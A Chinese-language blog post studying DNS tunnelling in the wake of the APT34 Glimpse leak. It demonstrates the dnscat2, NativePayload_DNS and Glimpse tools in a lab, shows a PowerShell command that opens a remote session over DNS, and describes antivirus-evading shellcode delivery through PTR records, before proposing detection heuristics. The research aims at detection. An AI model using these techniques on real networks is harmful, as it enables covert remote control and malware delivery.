# 由APT34 Glimpse工具引申出的DNS隧道问题

由于APT34工具的曝光，还有就是最近工作上关注了一下DNS隧道的检测，所以结合几个工具记录一下。

## DNS隧道简介

DNS协议是一个分布式的客户机/服务器网络数据库，分布式的原因是：互联网中没有单独的一个站点能够知道所有的信息。

访问DNS是通过地址解析器的应用程序库来完成，在请求TCP打开一个连接或是使用UDP发送一个单播数据之前，需要知道ip地址。

而DNS隧道就是通过DNS建立起来的一种隧道连接。

## DNS的几种资源记录类型

### 主机记录（A记录）：

将DNS中的域名称对应到IPv4地址

#### AAAA记录 IPV6解析记录：

该记录是将域名解析到一个指定的IPV6的IP上。

### PTR

定义某个IP对应的域名，

### CNAME (Canonical Name)记录，通常称别名解析

可以将注册的不同域名都转到一个域名记录上，由这个域名记录统一解析管理，与A记录不同的是，CNAME别名记录设置的可以是一个域名的描述而不一定是IP地址

### URL (Uniform Resource Locator )转发：网址转发

如果你没有一台独立的服务器（也就是没有一个独立的IP地址）或者您还有一个域名B，您想访问A域名时访问到B域名的内容，这时您就可以通过URL转发来实现。 

url转发可以转发到某一个目录下，甚至某一个文件上。而cname是不可以，这就是url转发和cname的主要区别所在。

### 服务位置记录（SRV记录）：

RFC 2782定义，用于定义提供特定服务的服务器的位置，如主机（hostname），端口（port number）等。

### NS（Name Server）记录是域名服务器记录

用来指定该域名由哪个DNS服务器来进行解析，可以把一个域名的不同二级域名分别指向到不同的DNS系统来解析。

### TXT记录：

TXT记录一般是为某条记录设置说明，比如你新建了一条a.ezloo.com的TXT记录，TXT记录内容"this is a test TXT record."，然后你用 nslookup -qt=txt a.ezloo.com ，你就能看到"this is a test TXT record"的字样。

除外，TXT还可以用来验证域名的所有，比如你的域名使用了Google的某项服务，Google会要求你建一个TXT记录，然后Google验证你对此域名是否具备管理权限。

## DNS隧道利用

选几个算是比较有代表性的工具来说明一下。

### DNSCAT2

DNSCAT2的控制端使用的是Ruby，被控端使用编译好的exe文件，后来网上也有Powershell版本的dnscat。安装：

```
git clone https://github.com/iagox86/dnscat2.git
```

然后ruby dnscat2.rb domain_name运行，这个domain_name需要能够被解析到，否则就不行，我这里本地实验所以把被控端的DNS地址改成了控制端的IP，否则被控端解析不到test域名。



然后再被控端执行powershell脚本dnscat2.ps1

```powershell
Start-Dnscat2 -Domain test -DnsServer 192.168.144.130
```



然后可以看到dnscat2这边已经反弹回了一个session 1



使用shell命令进行


通过抓包可以看到全部使用DNS协议进行数据通信，并且会随机采用三种不同类型的查询方式进行传输内容。


DNSCAT还有一些其他的使用方式，具体不再说明。

### NativePayload_DNS

NativePayload_DNS不是利用DNS隧道来进行命令控制上传文件，而是利用DNS隧道来传输shellcode，也就是分离免杀，躲避杀软的静态检测。

地址：https://github.com/DamonMohammadbagher/NativePayload_DNS

这里作者提供的是c#的源代码，需要自己生成exe文件，我用的是



使用：

首先将MSF生成的shellcode制作成IP+地址的格式


使用dnsspoof创建DNS服务器，并使用MSF开启监听。



在win7主机上执行生成的exe文件


成功执行shellcode


原理：

看下C#代码可以看到，原理其实很简单，代码也比较短。首先看其中存在一个包含DNS_PTR_A和DNSServer两个参数的函数__nslookup。

使用ProcessStartInfo类接收nslookup.exe的返回值，比如nslookup.exe 1.1.1.1 192.168.144.130，对应的PTR记录（通过IP反查域名）就是0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com


这里把地址的个数设置为了34，就是shellcode的行数，上面的dns.txt可以看到


然后通过循环遍历请求1.1.1.0-1.1.1.33对应的PTR记录，即可达到远程调用shellcode的目的。



再看PCAP包，可以看到33个PTR请求，返回值为Dmain Name字段，就是shellcode。


### APT34-Glimpse

APT34刚刚报出的远控工具，考虑到需要进行检测，就看了一下

结构：

工具是分为三个部分，server、Agent、panel

Server是一个node.js编写的服务端，会建立一个dns服务器

panel中的exe文件为可视化控制台

Agent中主要看dns_main.ps1，其他两个powershell文件都是混淆过的。



演示：

文件中包含了Readme文件，照着安装就好。


安装好了node.js然后forever start srvr.js开启


然后打开panel中的exe控制端



被控端运行dns_main.ps1之后看到出现的被控端



双击进入Agent Control Panel面板


测试了whoami，powershell脚本会在目录C:\Users\Public\Libraries\39af49429e\sendbox下创建一个proc10110文件



通过抓包可以看到TXT记录中使用S0000>后面加base64编码的whoami命令

S0000>aXBjb25maWc=


 

从dns_main.ps1中看的话可以看到一个大致的流程，首先会创建C:\Users\Public\Libraries目录，然后根据生成随机值创建文件夹



三个目录分别对应的是接收到的命令和命令执行的结果


## DNS隧道的检测

其实上面所说的三种工具特征都非常明显，比较容易检测，但是DNS隧道的应用又非常灵活，假如作者稍加修改，可能单纯从特征上来匹配的检测规则就被绕过，所以想检测DNS隧道还是需要结合域名长度次数之类的情况。

一般情况可以总结的特征：

```
请求方为受控方
可能存在超长无.的TXT回包
没有A记录返回结果
TXT回包内容中大概率没有类似于.com|.cn|.net等域名格式
```

暂时还没有出测试结果，所以这些检测的有效性还需要检验，而且这里说的几个是利用TXT记录的，如果只检测TXT记录等于上文说的NativePayload_DNS又跳过了，所以检测的类型也要保证多样。